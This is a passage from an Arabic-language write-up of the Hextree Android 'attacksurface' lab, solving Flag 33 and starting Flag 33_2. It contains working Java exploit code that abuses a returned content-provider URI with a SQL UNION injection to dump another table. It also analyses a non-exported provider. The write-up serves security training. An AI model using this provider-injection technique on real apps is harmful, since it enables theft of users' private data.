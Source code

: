 #### الحل

يعني إيه اللي نقدر نعمله؟ نقدر نبعت intent بـ `startActivityForResult` ونستخدم SQLi injection بس المرة دي اسمها union attack لأننا عايزين نوصل لجداول تانية من قاعدة البيانات، ونستخدم الـ cursor بتاعنا عشان نجيب البيانات ونسجلها

```java
Intent intent = new Intent("io.hextree.FLAG33");  
intent.setComponent(new ComponentName("io.hextree.attacksurface", "io.hextree.attacksurface.activities.Flag33Activity1"));  
startActivityForResult(intent,0);

@Override  
protected void onActivityResult(int requestCode, int resultCode, Intent data) {  
    super.onActivityResult(requestCode, resultCode, data);  
    if (requestCode == 0) {  
        Log.d("flags", data.getData().toString());  
            //   where _id=2 union Select  
        Cursor cursor = getContentResolver().query(data.getData(), new String[]{"name", "value","visible"}, "_id = 2 UNION SELECT  * FROM Note", null, null);  
        if (cursor.moveToFirst()) {  
            do {  
                StringBuilder sb = new StringBuilder();  
                for (int i = 0; i < cursor.getColumnCount(); i++) {  
                    if (sb.length() > 0) sb.append(", ");  
                    sb.append(cursor.getColumnName(i)).append(" = ").append(cursor.getString(i));  
                }  
                Log.d("evil", sb.toString());  
            } while (cursor.moveToNext());  
        }  
    }
}
```

### Flag 33_2

#### تحليل الكود

```xml
<provider
    android:name="io.hextree.attacksurface.providers.Flag33Provider2"
	android:enabled="true"
	android:exported="false"
	android:authorities="io.hextree.flag33_2"
	    android:grantUriPermissions="true"/>
```

زي الـ flag اللي فات مقدرش أوصله بس component تاني مع الطلبات الصح يقدر يوصله وبصة على activity33_2 عنده المتطلبات الصح

```java
    String stringExtra = getIntent().getStringExtra("secret");
    if (stringExtra == null) {
	    Intent intent = new Intent();
	    intent.setAction("io.hextree.FLAG33");
	    intent.setData(Uri.parse("content://io.hextree.flag33_2/flags"));
	    intent.addFlags(1);
	    startActivity(intent);
        return;
    }
```
